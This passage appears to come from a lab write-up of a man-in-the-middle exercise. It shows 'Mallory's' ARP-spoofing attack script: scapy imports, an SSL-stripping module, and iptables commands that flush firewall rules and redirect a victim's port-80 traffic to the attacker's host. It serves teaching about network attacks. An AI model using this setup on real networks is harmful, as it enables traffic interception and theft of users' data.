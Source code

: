 ```javascript
                    console.log("[" + protocol + "] GET response received");
                });
            });
        });
    });
};

do_request();
```

Finally, running
`$ docker-compose up`
starts the network and containers and we see Alice printing the requests as expected

```
[https] GET response received
[https] POST response received
[https] PUT response received
[https] GET response received
```

<br>

***

## ARP Spoofing

***

The imports we use for Mallory's attack script are

```python
import os, sys, subprocess
from multiprocessing import Process
from scapy.all import *
from server import run_server # a custom module used to perform the ssl stripping
```

Since Mallory will be capturing Alice's traffic, they will first act as a legitimate gateway.
To accomplish this, we set up iptables routing similar to our [Malicious Gateway](/crypto/2020/10/15/06-malgat.html)
exercise.

```python
def init():
    subprocess.call('iptables -F'.split(' '))
    subprocess.call('iptables -F -t nat'.split(' '))
    subprocess.call('iptables -F -t mangle'.split(' '))

    subprocess.call('iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE'.split(' '))
    subprocess.call('iptables -A FORWARD -i eth0 -o eth1 -m state --state RELATED,ESTABLISHED -j ACCEPT'.split(' '))
    subprocess.call('iptables -A FORWARD -i eth1 -o eth0 -j ACCEPT'.split(' '))
    subprocess.call('iptables -t nat -A PREROUTING -p tcp -i eth0 -d 142.1.97.172 --dport 80 -j DNAT --to-destination 10.0.0.3:8080'.split(' '))
```
